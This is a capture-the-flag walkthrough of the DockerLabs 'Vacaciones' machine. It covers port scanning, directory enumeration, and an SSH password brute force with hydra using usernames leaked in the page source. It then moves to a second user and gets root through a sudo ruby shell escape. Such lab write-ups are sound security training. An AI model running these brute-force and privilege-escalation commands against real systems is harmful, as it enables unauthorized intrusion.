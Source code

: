 # Vacaciones

[🔗 DockerLabs.es](https://dockerlabs.es/#/)

&#x20;[🔗](https://dockerlabs.es/#/) [How to setup a Docker Image ](https://dockerlabs.es/assets/instrucciones\_de\_uso.pdf)

<details>

<summary>CTF BootToRoot</summary>

A **CTF** (Capture The Flag) **Boot To Root** (B2R) is a type of cybersecurity challenge where participants are tasked with gaining unauthorized access to a computer system (the "Boot" part) and then obtaining and eventually capturing a specific flag or set of flags (the "Root" part). The flags could be strings of text, files, or other data that prove the participant has successfully compromised the system.

In these challenges, participants typically start with minimal information about the target system and have to use various techniques, including vulnerability analysis, exploitation, privilege escalation, and more, to gain access and ultimately root access to the system. The challenges often simulate real-world scenarios and are designed to test participants' skills in penetration testing, exploit development, reverse engineering, and other cybersecurity domains. They can be hosted online or in-person as part of cybersecurity competitions, training events, or educational exercises.

</details>

## Task 1 - Deploy the machine

Install docker.io (if you do not already have it installed) -> `sudo apt install docker.io`

Download machine from DockerLabs website and setup lab:

* `unzip vacaciones``.zip`
* `sudo bash auto_deploy.sh vacaciones.tar`

<div align="left">

<figure><img src="../.gitbook/assets/image (280).png" alt=""><figcaption></figcaption></figure>

</div>

and we obtained IP machine -> 🎯 Target IP: `172.17.0.2`

We can put the IP in the file to associate it with an easier to remember name:

<pre class="language-bash"><code class="lang-bash">su
<strong>echo "172.17.0.2 vacaciones" >> /etc/hosts
</strong></code></pre>

Create a directory for machine on a dedicated folder and subdir containing: nmap,content,exploits,scripts

<pre class="language-bash"><code class="lang-bash"><strong>mkdir -p DockerLabs/vacaciones
</strong>cd DockerLabs/vacaciones
<strong>mkdir {nmap,content,exploits,scripts}
</strong><strong>
</strong># At the end of the Lab
CTRL + C #To stop running machine

<strong>sed -i '$ d' /etc/hosts # To clean up the last line from the /etc/hosts file
</strong><strong>
</strong># To repair potential problem during activities
sudo systemctl restart docker
sudo docker stop $(docker ps -q)
sudo docker container prune -force
</code></pre>

## Task 2 - Reconnaissance and Exploitation

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 vacaciones
64 bytes from upload (172.17.0.2): icmp_seq=1 ttl=64 time=0.086 ms
64 bytes from upload (172.17.0.2): icmp_seq=2 ttl=64 time=0.034 ms
64 bytes from upload (172.17.0.2): icmp_seq=3 ttl=64 time=0.040 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix system, while Windows systems usually have a TTL of 128 secs.

### 2.1 Ports in listening and relative services

Of course, we start looking for information about our target by scanning the open ports with the nmap tool

```bash
nmap -Pn -n -p0- vacaciones
```

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

There're two open port (22, 80), analyze them searching more info about services version and potential vulns:

```bash
nmap -A -sVC -p 22,80 vacaciones -oN nmap/port_scan
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 41:16:eb:54:64:34:d1:69:ee:dc:d9:21:9c:72:a5:c1 (RSA)
|   256 f0:c4:2b:02:50:3a:49:a7:a2:34:b8:09:61:fd:2c:6d (ECDSA)
|_  256 df:e9:46:31:9a:ef:0d:81:31:1f:77:e4:29:f5:c9:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>Pn</td><td>no ping</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

As always we begin our exploration from port 80, where we know there is a web server, so we execute the whatweb command to extract more information and then view the content using the browser

```bash
whatweb http://vacaciones
```

<figure><img src="../.gitbook/assets/image (286).png" alt=""><figcaption></figcaption></figure>

The Apache version is older and vulnerable, we can verify it using searchsploit tool:

<div align="left">

<figure><img src="../.gitbook/assets/image (285).png" alt=""><figcaption></figcaption></figure>

</div>

<div align="left">

<figure><img src="../.gitbook/assets/image (287).png" alt=""><figcaption></figcaption></figure>

</div>

Let's display the default Apache page, there's a blank page, try analysing the source page with CTRL+U

<figure><img src="../.gitbook/assets/image (284).png" alt=""><figcaption></figcaption></figure>

We discover this information disclosure regarding two hypotetic usernames: Juan and Camilo, we'll use them later to try brute force attack via ssh (22).

<figure><img src="../.gitbook/assets/image (281).png" alt=""><figcaption></figcaption></figure>

### 2.2 Brute force hidden web directory

Continuing, we try to find potential hidden directory using gobuster:

```bash
gobuster dir -u http://vacaciones -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

<figure><img src="../.gitbook/assets/image (282).png" alt=""><figcaption></figcaption></figure>

We only find a web dir (/javascript), but going on it we haven't permission to access. &#x20;

<div align="left">

<figure><img src="../.gitbook/assets/image (283).png" alt=""><figcaption></figcaption></figure>

</div>

### 2.3 Brute force ssh credentials

Remembering that we've two pontetial username and the port 22 (SSH) opened, not knowing the password we could try a brute force attack with hydra.

I save the two usernames into a txt file: `echo -e "camilo\njuan" >> users.txt`

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt vacaciones ssh
```

<div align="left">

<figure><img src="../.gitbook/assets/image (288).png" alt=""><figcaption></figcaption></figure>

</div>

Fantastic, we discovered the password, we use it to log in via SSH with the following command: `ssh camilo@vacaciones`

<div align="left">

<figure><img src="../.gitbook/assets/image (290).png" alt=""><figcaption></figcaption></figure>

</div>

## Task 3 - Privilege Escalation

Now that we are inside, since we are not root user we need to elevate our privileges, but we can't retrieve good info using `sudo -l` because we're not into sudoers

<div align="left">

<figure><img src="../.gitbook/assets/image (291).png" alt=""><figcaption></figcaption></figure>

</div>

Remember the information disclosure, we try to find email locally `find / -type f -name "*.txt" 2>/dev/null`

<div align="left">

<figure><img src="../.gitbook/assets/image (292).png" alt=""><figcaption></figcaption></figure>

</div>

and we retrieve the mail message that we are searching.

<div align="left">

<figure><img src="../.gitbook/assets/image (293).png" alt=""><figcaption></figcaption></figure>

</div>

We know that ther're three users, then we can try to log in with each

&#x20;![](<../.gitbook/assets/image (296).png>)

<div align="left">

<figure><img src="../.gitbook/assets/image (295).png" alt=""><figcaption></figcaption></figure>

</div>

Very good, password works for juan!

And user `sudo -l` we see that juan user has root permissions for /usr/bin/ruby, then we can use [gtfobins](https://gtfobins.github.io/gtfobins/ruby/) to find it.

{% embed url="https://gtfobins.github.io/gtfobins/ruby/" %}

<figure><img src="../.gitbook/assets/image (294).png" alt=""><figcaption></figcaption></figure>

using ruby sudo command, we obtain a root permission `sudo ruby -e 'exec "/bin/sh"'`

<div align="left">

<figure><img src="../.gitbook/assets/image (297).png" alt=""><figcaption></figcaption></figure>

</div>
